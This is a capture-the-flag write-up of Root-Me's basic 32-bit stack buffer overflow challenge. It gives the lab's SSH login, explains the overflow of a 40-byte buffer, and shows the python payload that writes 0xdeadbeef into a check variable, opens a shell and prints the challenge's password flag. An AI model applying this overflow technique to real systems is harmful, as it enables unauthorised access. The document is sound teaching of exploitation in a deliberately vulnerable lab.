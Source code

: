 # ELF x86 - Stack buffer overflow basic 1
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch13@challenge02.root-me.org   
Username	app-systeme-ch13
Password	app-systeme-ch13
```

According to the source code (provided in the challenge page), the goal is to change the _check_ variable to 0xdeadbeef.<br>
In addition, the executable will print the values of _check_ and _buf_.<br>

As you may see in the source code, the _buf_ variable is 40 bytes long, and it comes right after the _check_ variable. So, in order to
overwrite the _check_, one should fill the _buf_ variable and then enter the wanted value of check - there is no boundary check so it's possible.<br>

A quick check for validating the last statement:
```sh
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'DDDD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x44444444

You are on the right way!
```

As you may see, the _check_ value is now "DDDD". So let's change it to 0xdeadbeef:
```sh
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
id
uid=1113(app-systeme-ch13) gid=1113(app-systeme-ch13) euid=1213(app-systeme-ch13-cracked) groups=1213(app-systeme-ch13-cracked),100(users),1113(app-systeme-ch13)
cat .passwd
1w4ntm0r3pr0np1s
```
(The _cat_ and the '-' are used for keeping the shell open)
